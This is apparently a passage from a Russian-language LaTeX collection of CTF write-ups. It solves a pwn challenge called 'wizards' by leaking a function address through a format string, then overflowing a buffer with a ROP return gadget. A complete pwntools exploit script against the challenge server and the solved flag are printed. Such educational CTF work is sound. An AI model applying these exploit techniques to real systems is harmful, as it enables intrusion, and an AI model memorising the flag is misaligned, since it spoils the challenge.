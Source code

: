 \documentclass[idxtotoc,hyperref,openany,oneside]{files/pwn} %
\begin{document}
Окей, мы определились с нашим пайлоадом: заклинание + нулевой байт + мусор + нужный адрес. Но тут возникает подстава - программа падает. Если погуглить (или знать), то можно найти, что функции из libc требуют выравнивания стека. Проблема. Но можно воспользоваться ROP (Return Oriented Programming) - для начала вернуться из WIN-функции и таким образом выравнять стек. То есть, в конечно итоге, пайлоад будет выглядеть как: заклинание + нулевой байт + мусор + адрес возврата из WIN + адрес WIN.

Сплойт будет выглядеть примерно следующим образом:
\begin{lstlisting}[language=Python, caption=Переполнение буфера с форматной строкой]
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

from pwn import *

context(os='linux', arch='amd64')

BINARY = './wizards'
REMOTE = True

WIN_OFFSET = 0x13f
WIN_RET = 0x42


def leak_win_address(remote):
    remote.recvuntil("Enter your witch name:")
    log.info("Sending format string exploit...")
    remote.sendline("%p|" * 42)

    LEAKS = remote.recvuntil("enter your magic spell:").split("|")
    MAIN = int(LEAKS[-5], 16)
    log.info("Leaked MAIN function address: {}".format(hex(MAIN)))

    WIN = MAIN - WIN_OFFSET
    log.info("Leaked WIN function address: {}".format(hex(WIN)))

    return WIN


def exploit():
    if REMOTE:
        r = remote('ctf-edu-t.orb.ru', 36784)
    else:
        r = process(BINARY)

    win_addr = leak_win_address(r)
    win_ret = win_addr + WIN_RET

    payload = "Expelliarmus\x00"
    payload += 'A' * cyclic_find("cnaa")
    payload += p64(win_ret)
    payload += p64(win_addr)

    r.sendline(payload)
    r.interactive()


if __name__ == "__main__":
    exploit()
\end{lstlisting}

Таким образом, получаем флаг \verb|oren_ctf_Berners-Lee!|



\textbf{Теги:} ELF 64bit, C, gadgets, heap\vspace{\baselineskip}
\end{document}
